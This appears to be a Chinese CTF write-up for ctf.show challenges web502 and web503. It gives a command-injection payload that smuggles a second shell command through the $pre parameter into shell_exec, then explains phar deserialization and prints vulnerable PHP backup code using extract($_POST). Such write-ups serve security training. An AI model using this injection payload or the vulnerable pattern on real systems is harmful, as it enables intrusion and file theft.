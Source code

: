 ## web502

其它与 web500 一样，`$db_format`没法绕了，但注意`$pre`被拼接进去且没被过滤

```php
if(preg_match('/^(zip|tar|sql)$/', $db_format)){
		shell_exec('mysqldump -u root -h 127.0.0.1 -proot --databases ctfshow > '.$pre.$db_format);
```

```
db_format=zip&pre=1;tac /f*>/var/www/html/1.txt;
```

## web503

这个很经典，phar反序列化+文件上传

**phar反序列化即在文件系统函数（file_exists()、is_dir()等）参数可控的情况下，配合phar://伪协议，可以不依赖unserialize()直接进行反序列化操作。**

```
利用条件:
1、phar文件要能够上传到服务器端。
2、有如file_exists()，fopen()，file_get_contents()，file()等文件操作的函数
3、要有可用的魔术方法作为“跳板”。
4、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
```

先查看数据备份功能点的源码

```http
view-source:http://97e3beb9-2c4e-4b46-ba65-aa063ddd49e9.challenge.ctf.show/index.php?action=../api/admin_db_backup
```

```php
<?php
session_start();

include('../render/db_class.php');
error_reporting(0);
$user= $_SESSION['user'];
$pre=__DIR__.'/../backup/'.date_format(date_create(),'Y-m-d').'/db.';
$ret = array(
		"code"=>0,
		"msg"=>"查询失败",
		"count"=>0,
		"data"=>array()
	);
if($user){
	extract($_POST);
	if(file_exists($pre.$db_format)){ //此函数可以触发phar协议，且可以变量覆盖 $pre 与 $db_format
			$ret['msg']='数据库备份成功';
			die(json_encode($ret));
	}

	if(preg_match('/^(zip|tar|sql)$/', $db_format)){
		shell_exec('mysqldump -u root -h 127.0.0.1 -proot --databases ctfshow > '.md5($pre.$db_format));
		if(file_exists($pre.$db_format)){
			$ret['msg']='数据库备份成功';
		}else{
			$ret['msg']='数据库备份失败';
		}
	}else{
		$ret['msg']='数据库备份失败';
	}
	die(json_encode($ret));

```